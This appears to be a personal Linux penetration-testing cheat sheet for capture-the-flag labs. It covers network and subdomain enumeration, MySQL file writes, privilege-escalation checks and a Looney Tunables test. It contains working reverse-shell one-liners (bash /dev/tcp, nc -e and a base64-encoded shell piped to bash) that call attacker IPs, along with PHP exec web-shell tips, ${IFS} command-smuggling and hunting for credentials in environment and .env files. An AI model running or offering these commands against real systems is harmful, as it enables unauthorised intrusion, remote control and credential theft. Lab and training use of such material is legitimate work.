 # Linux CheatSheet
## General

```bash
find . -type f -name "*.txt"
#find all files with extension in current dir

md5sum <filename> 
#gets md5 hash of file

find / -type d -name '.git'
#finds dirs with name

cd /var/mail && cd /var/spool/mail
#check for mail

```

${IFS} can be used in place of whitespace when no whitespace allowed

jd-gui used to decompile jar files

## Enumeration

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

dig axfr @<ip> <hostname>
#gets other hostnames from port 53 of server

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container

gitdump used to dump .git directories 


## MySQL

```bash
mysql -u <username> -p <database>
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

mysql can usually write into /var/lib/mysql/

SELECT "bashscript" into outfile '/dev/shm/malware.sh';
SELECT from_base64("base64encoded") into outfile '/dev/shm/nothing.txt';


## RevShells

```bash
bash -i >& /dev/tcp/10.10.15.59/9002 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.15.59/8000 0>&1" | base64
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE= | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

For things running on localhost, if you have ssh session then you can forward it to yourself
Using ~C , then -L 8080:localhost:8080

## PHP

With PHP, can put <?php exec("command"); ?> in a .php file then call it
Or exec("command"); in interactive php
Remember to base encode, and not have + in them as will fuck with url encoding. double base encoding usually works well

Also, when calling .php files try both with and without the extension in web browser...

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)

env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#loonytoonables vuln if returns Segmentation fault (core dumped)

ps aux ww

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

python2 fallofsudo.py

```

look in all interesting folders, .git, .config, /var/www, /, .local

check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

